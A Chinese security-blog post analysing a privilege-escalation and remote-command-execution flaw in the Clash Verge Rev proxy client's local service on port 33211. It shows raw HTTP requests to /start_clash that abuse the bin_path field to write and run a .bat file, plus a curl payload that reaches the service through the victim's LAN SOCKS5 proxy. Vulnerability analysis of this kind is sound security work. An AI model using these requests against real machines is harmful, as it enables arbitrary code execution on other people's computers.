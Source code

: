 #  Clash Verge rev提权与命令执行分析   
原创 zkaq - cs  掌控安全EDU   2025-05-09 04:01  
  
扫码领资料  
  
获网安教程  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -  c's 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（ https://bbs.zkaq.cn）**  
# 一、基本信息  
### 1.1、漏洞背景  
  
**复现时间：**  
20250429  
  
**背景：**  
  
https://github.com/clash-verge-rev/clash-verge-rev/issues/3428  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyUgqMfbAL8PicfxiclaE8wdKicibjlic3w3rF7MaviajmMyr3WAicic5d35polQ/640?wx_fmt=png&from=appmsg "")  
  
1.2、clash生态  
  
1. Clash内核●Clash是一个开源、跨平台的规则分流代理内核，用Go语言开发，核心功能是多协议代理（如VMess、VLESS、Trojan、Shadowsocks、Socks5、HTTP等）+强大的规则分流。  
●本质：命令行程序，无GUI，负责流量抓取、转发、分流、协议转换等。●配置：通过YAML文件配置，支持多节点、多规则、多策略组。●功能：分流、UDP/IPv6支持、透明代理、DNS伪装、测速、订阅等。2. Clash GUI生态●Clash for Windows、ClashX（Mac）、Clash Verge/Verge Rev、Meta、Meta for Android等，都是基于Clash内核的图形界面前端，用来简化配置、管理和可视化操作。1.3、Clash Verge Rev是什么1. Clash Verge Rev简介●Clash Verge Rev是一款基于Clash内核的跨平台GUI客户端。●Verge Rev=Verge的分支/二开版本，通常会有更多新特性、优化和自定义功能。●支持Windows、MacOS、Linux等，界面现代、交互友好。2. 架构●前端（GUI）：负责用户交互、配置管理、节点展示、规则编辑、流量统计等。●后端（内核）：集成Clash核心程序，负责实际的流量抓取、协议解析与分流。●通信：前端通过API/本地端口与Clash内核通信（如RESTful API、WebSocket）。1.4、clash Verge Rev的安全性与架构●GUI和内核分离：理论上GUI和内核可以独立升级，安全性更好。●开源可审计：代码开源，安全人员可自行审计有无后门。●GUI前端：用户操作界面●clash-verge-service：本地服务进程，管理内核和提供接口●Clash内核：真正的网络代理引擎1.5、监听端口clash系列都差不多，常见clash的配置文件：clash-verge-service监听端口：小结一下，端口号作用进程7890、7891代理流量端口（HTTP/SOCKS5）clash-core/meta9090内核 API（external-controller）clash-core/meta33211clash-verge-service 的本地API端口clash-verge-service数据流向：二、漏洞1、提权详细请求数据包，查看日志文件，提权成功辅助测试go程序，代码，代码入口，写入配置，  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNy1u1YsJ2sx4e13crbS5PLxyA4UEOOIm9ia83ibqePiauSynmtk96rU3LNQ/640?wx_fmt=png&from=appmsg "")  
这里可以实现任意文件写入，配合多种姿势rce  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyjUBzQyVzwYdPY8o2AAmtwG2waIiaptEX0DZJQRxiadBHspwldvyZWDbw/640?wx_fmt=png&from=appmsg "")  
针对mac和非mac文件都可以，  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyLxkPOnV2ibGYUhX9fIiagficGP8LnuL3uiaEszNV2jX8lUvOy2O3hrhWBQ/640?wx_fmt=png&from=appmsg "")  
2、转换系统rce复现，代码已经写得很详细了。由于参数不完全可控，RCE 部分会复杂一些。可以考虑这样处理：先发送一个请求，把要执行的命令写入 bat 文件，再通过第二个请求调用这个文件即可。该思路可以用于win和mac。详细请求数据包，写入成功  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNy2cUxY77DTgvVM8fkzicAaa84eGic0g7jHtxibmh8M1CcW5NBfLBMdHq5g/640?wx_fmt=png&from=appmsg "")  
第二次请求，  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrov6OFlhDG1jCowicDFbLNyM0VliaEZWm4Ac4E3ptCy8OT2adYr1a90iaSB88bfXS4ju3GGtHThibuyw/640?wx_fmt=png&from=appmsg "")  
详细请求数据包POST /start_clash HTTP/1.1Host: 127.0.0.1:33211Content-Type: application/json{"bin_path": "d:/clash.bat","config_dir": ".","config_file": ".","log_file": "d:/clash.log"}3、进一步利用这个漏洞的影响范围可以更广。特别是当用户在与攻击者相同的局域网环境中开启了局域网功能时，攻击者可以利用clash的代理机制发起直接攻击。payload：```
curl -x socks5://192.168.xx.xx:xx -X POST "http://127.0.0.1:33211/start_clash" \
-H "Content-Type: application/json" \
-d '{
  "bin_path": "xx",
  "config_dir": "xx",
  "config_file": "xx",
  "log_file": "xx"
}'
```  
进一步扩大危害的可能？简单来说，这个漏洞可以集成到蜜罐中，当“攻击者”用受影响的clash访问蜜罐时，蜜罐可以自动发起前述两个请求，实现对攻击者的反制。但是经测试未成功，原因是发起JSON格式的POST请求需要CORS支持，这个方案目前行不通。  
申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，  
  
所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWaCD3pqD9SSJ3YMhuahjm3anU6mlEJaepA8qOwm3C4GVIETQZT6uHGQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**没看够~？欢迎关注！**  
  
  
  
**分享本文到朋友圈，可以凭截图找老师领取**  
  
上千**教程+工具+交流群+靶场账号**  
哦  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
******分享后扫码加我！**  
  
  
**回顾往期内容**  
  
[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)  
  
  
[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  
  
  
[文库｜内网神器cs4.0使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  
  
  
[记某地级市护网的攻防演练行动](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247543747&idx=1&sn=c7745ecb8b33401ae317c295bed41cc8&token=74838194&lang=zh_CN&scene=21#wechat_redirect)  
  
  
  
[手把手教你CNVD漏洞挖掘 + 资产收集](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247542576&idx=1&sn=d9f419d7a632390d52591ec0a5f4ba01&token=74838194&lang=zh_CN&scene=21#wechat_redirect)  
  
  
[【精选】SRC快速入门+上分小秘籍+实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)  
  
##     代理池工具撰写 | 只有无尽的跳转，没有封禁的IP！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWaCD3pqD9SSJ3YMhuahjm3anU6mlEJaepA8qOwm3C4GVIETQZT6uHGQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
点赞+在看支持一下吧~感谢看官老爷~   
  
你的点赞是我更新的动力  
  

